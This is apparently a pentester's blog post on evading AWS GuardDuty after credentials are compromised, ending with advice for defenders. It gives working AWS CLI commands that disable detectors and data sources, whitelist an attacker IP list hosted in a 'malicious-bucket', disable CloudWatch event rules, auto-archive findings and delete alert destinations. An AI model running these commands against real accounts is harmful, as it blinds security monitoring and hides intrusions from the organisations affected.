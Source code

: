 ```yaml
---
layout: post
title: AWS Guard-OffDuty
---
```


Let's assume that we have found and  successfully validated some AWS credentials during an engagement. Then it might be a good idea to modify the threat detection services like GuardDuty to reduce the likelihood of triggering an alert. Therefore we need to modify the GuardDuty configuration to stay cloaked. Deleting or modifying key attributes of GuardDuty might have a less likely chance to raise alerts. The actions we can do depend on the compromised permissions available. The GuardDuty architecture and the presence of higher level controls like [Service Control Policies](https://docs.aws.amazon.com/organizations/latest/userguide/orgs_manage_policies_scps.html) can give us options.

<p align="center">
<img width=300 src="/images/mr-bean-guard.gif">
</p>

GuardDuty itself uses a delegated admin or invite model which are hard to bypass. But features like detector configurations and IP-Trust-Lists are usually centrally managed. This pivot point can be used as a bypass, but usually they can only be modified in the GuardDuty administrator account itself. If this pattern isn't used, these features can be modified in the account that GuardDuty is running in and help us to trick the Guards.

Let's check our options:

## Option1 - Patching the Detector

We can modify an existing GuardDuty detector in the account with the goal to remove log sources or lessen its effectiveness.

Configuration changes may include a combination of:

- Disabling the detector  
- Removing Kubernetes and S3 as Data Sources. This removes all available [S3 Protection](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-s3.html) and/or [Kubernetes alerts](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-kubernetes.html)  
- Increasing the event update frequency to 6 hours instead of the casual 15 minutes. This give some more time to dig around in the account and stay cloaked. To manage this we have to check the Required permissions to execute:

- `guardduty:ListDetectors`
- `guardduty:UpdateDetector`

Tiny cheat sheet of the CLI commands:

```bash
# Disabling the detector
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --no-enable 

# Removing s3 as a log source
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --data-sources S3Logs={Enable=false}

# Increase finding update time to 6 hours
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --finding-publishing-frequency SIX_HOURS
```

---

## Option2 - Patching Trusted IP Lists

We could create or update GuardDuty's [Trusted IP list](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_upload-lists.html) - including their own IP on the list. Any IPs in a trusted IP list will not have any Cloudtrail or VPC flow log alerts raised against them.

*DNS findings are exempt from the Trusted IP list.*

**Required permissions to execute:**

- `guardduty:ListDetectors`
- `guardduty:ListIPSet`
- `iam:PutRolePolicy`
- `guardduty:CreateIPSet (can be used to create a new list)`
- `guardduty:UpdateIPSet (update an existing list)`

Depending on the level of stealth required the file can be uploaded to an S3 bucket:

- Either in the target account
- or an account controlled by the attacker

Tiny cheat sheet of the CLI commands:

```bash
aws guardduty update-ip-set \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --ip-set-id 24adjigdk34290840348exampleiplist \
    --location https://malicious-bucket.s3-us-east-1.amazonaws.com/customiplist.csv \
    --activate
```

## Option 3 - Modify Cloudwatch events rule

GuardDuty populates its findings to Cloudwatch-Events every 5 minutes. Modifying the Event pattern or Targets for an event may reduce GuardDuty's ability to alert and trigger auto-remediation of a findings. Especially where the remediation is triggered in a member account as GuardDuty administrator protections do not extend to the Cloudwatch events in one of the member accounts.

But be aware that:

> In a delegated or invitational admin GuardDuty architecture, cloudwatch events will still be created in the admin account.

**Required permissions to execute:**

- `gevent:ListRules`
- `gevent:ListTargetsByRule`
- `gevent:PutRule`
- `gevent:RemoveTargets`

Tiny cheat sheet of the CLI commands:

```bash
# Disable GuardDuty Cloudwatch Event
aws events put-rule --name guardduty-event \
    --event-pattern "{\"source\":[\"aws.guardduty\"]}" \
    --state DISABLED

# Modify Event Pattern
aws events put-rule --name guardduty-event \
    --event-pattern '{"source": ["aws.somethingthatdoesntexist"]}'

# Remove Event Targets
aws events remove-targets \ 
    --name guardduty-event \
    --ids "GuardDutyTarget"
```

---

## Option 4 - Create Suppression Rules

Newly create GuardDuty findings can be automatically archived via [Suppression Rules](https://docs.aws.amazon.com/guardduty/latest/ug/findings_suppression-rule.html). We can also use [filters](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_filter-findings.html) to automatically archive findings before they are fresh generated.

**Required permissions to execute:**
- `guardduty:CreateFilter`

Tiny cheat sheet of the CLI commands:

```bash
aws  guardduty create-filter --action ARCHIVE \
--detector-id 123456 \
--name fancyfiltername \
--finding-criteria file://criteria.json
```

Filters can be created using the [CreateFilter API](https://docs.aws.amazon.com/guardduty/latest/APIReference/API_CreateFilter.html).

---

## Option 5 - Delete Publishing Destination

We could disable alerting simply by [deleting the destination](https://docs.aws.amazon.com/cli/latest/reference/guardduty/delete-publishing-destination.html) of alerts.

**Required permissions to execute:**

- `guardduty:DeletePublishingDestination`

Tiny cheat sheet of the CLI commands:

```bash
aws guardduty delete-publishing-destination \
    --detector-id abc123 \
    --destination-id def456
```

## How to keep the Guards On-Duty

Now we learned how bad things can turn out or the work as a defender can be slowed out. Too keep up with the cool kids we have multiple things to fortify our AWS accounts:

1. The best way - Keep all the GuardDuty configurations, Policies and other things safe in a dedicated GuardDuty account to manage the rest. Make sure that you respect the principle of least privilege.
2. AWS Config can be used for making sure that your configuration is auto remediated to a sane configuration. In case that an auto remediation occurred - you have to enter a SIRT (Security Incident Response Team) Mode as soon as possible and investigate your fortress
3. Keep an eye on changes of crucial events in CloudWatch or use a WatchDog based on AWS Lambda to get notified if something strange happens.
4. Train and use a simulation tool to check regularly if GuardDuty, Monitoring and SIEM are still alive. The [awslabs/amazon-guardduty-tester](https://github.com/awslabs/amazon-guardduty-tester) might be polished a little for this purpose.
5. Do not rely on GuardDuty as your only line of defense - defense in depth is king and create as much hurdles as possible and be aware that even the strongest fortress will fall, it's just a matter of effort an attacker is ready to invest. Let's make it as hard as possible :)

<p align="center">
<img width=300 src="/images/MivN.gif">
</p>
